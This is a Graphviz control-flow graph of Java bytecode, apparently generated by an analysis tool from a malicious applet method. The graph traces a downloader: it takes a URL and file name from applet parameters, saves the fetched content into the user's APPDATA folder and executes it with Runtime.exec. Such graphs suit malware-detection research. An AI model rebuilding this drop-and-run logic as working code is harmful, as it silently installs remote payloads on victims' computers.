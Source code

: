 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"YourFile\""
    "load.r r0"->"push \"YourFile\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"YourFile\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "push \"APPDATA\""
    "store.r r2"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "pop"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"pop";
    "pop"->"push \"APPDATA\"";
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r4";
    "new java.net.URL"
    "store.r r4"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"YourDirectLink\""
    "load.r r0"->"push \"YourDirectLink\"";
    "push \"YourDirectLink\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "push \"GoTo\""
    "load.r r0"->"push \"GoTo\"";
    "push \"GoTo\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"pop";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "pop"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r0"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r0";
    "new java.io.FileOutputStream"
    "store.r r0"->"new java.io.FileOutputStream";
    "store.r $r19"
    "new java.io.FileOutputStream"->"store.r $r19";
    "load.r $r19"
    "store.r $r19"->"load.r $r19";
    "new java.lang.StringBuilder"
    "load.r $r19"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r4"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r4";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r2"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r9"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r10"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r10";
    "store.r r10"->"push 1024";
    "push 1024"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "store.r r11"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r11";
    "store.r r11"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r11";
    "store.r r11"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r11";
    "store.r r11"->"load.r r0";
    "load.r r9"
    "load.r r0"->"load.r r9";
    "push 0"
    "load.r r9"->"push 0";
    "push 0"->"load.r r9";
    "arraylength"
    "load.r r9"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i r11"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i r11";
    "load.i r11"
    "store.i r11"->"load.i r11";
    "push -1"
    "load.i r11"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r $r19";
    "load.r $r19"->"load.r r9";
    "load.r r9"->"push 0";
    "push 0"->"load.i r11";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i r11"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r19";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r19"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "load.r r10"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r10";
    "load.r r10"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "goto return"->"return";
}
